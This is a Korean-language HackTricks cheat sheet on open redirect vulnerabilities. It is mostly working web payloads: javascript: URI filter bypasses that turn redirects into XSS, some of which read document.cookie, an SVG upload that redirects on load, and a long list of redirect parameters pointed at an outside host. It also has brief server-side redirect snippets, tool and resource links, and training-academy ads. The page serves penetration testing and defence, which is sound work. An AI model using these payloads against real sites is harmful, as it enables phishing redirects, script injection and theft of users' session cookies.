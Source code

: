 # Open Redirect

{{#include ../banners/hacktricks-training.md}}

<figure><img src="/images/image (2).png" alt=""><figcaption></figcaption></figure>

**모바일 보안**에 대한 전문성을 심화하세요. 8kSec 아카데미와 함께 iOS 및 Android 보안을 마스터하고 자격증을 취득하세요:

{% embed url="https://academy.8ksec.io/" %}

## Open redirect

### 로컬호스트 또는 임의 도메인으로 리디렉션

{{#ref}}
ssrf-server-side-request-forgery/url-format-bypass.md
{{#endref}}

### XSS로의 Open Redirect
```bash
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

# Abuse bad subdomain filter
javascript://sub.domain.com/%0Aalert(1)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```
## Open Redirect svg 파일 업로드
```markup
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```
## 일반적인 주입 매개변수
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```
## 코드 예제

#### .Net
```bash
response.redirect("~/mysafe-subdomain/login.aspx")
```
#### 자바
```bash
response.redirect("http://mysafedomain.com");
```
#### PHP
```php
<?php
/* browser redirections*/
header("Location: http://mysafedomain.com");
exit;
?>
```
## 도구

- [https://github.com/0xNanda/Oralyzer](https://github.com/0xNanda/Oralyzer)

## 자료

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect)에서 퍼징 목록을 찾을 수 있습니다.\\
- [https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)\\
- [https://github.com/cujanovic/Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
- [https://infosecwriteups.com/open-redirects-bypassing-csrf-validations-simplified-4215dc4f180a](https://infosecwriteups.com/open-redirects-bypassing-csrf-validations-simplified-4215dc4f180a)

<figure><img src="/images/image (2).png" alt=""><figcaption></figcaption></figure>

**모바일 보안**에 대한 전문성을 심화하세요. 8kSec 아카데미에서 iOS 및 Android 보안을 마스터하고 자격증을 취득하세요:

{% embed url="https://academy.8ksec.io/" %}

{{#include ../banners/hacktricks-training.md}}
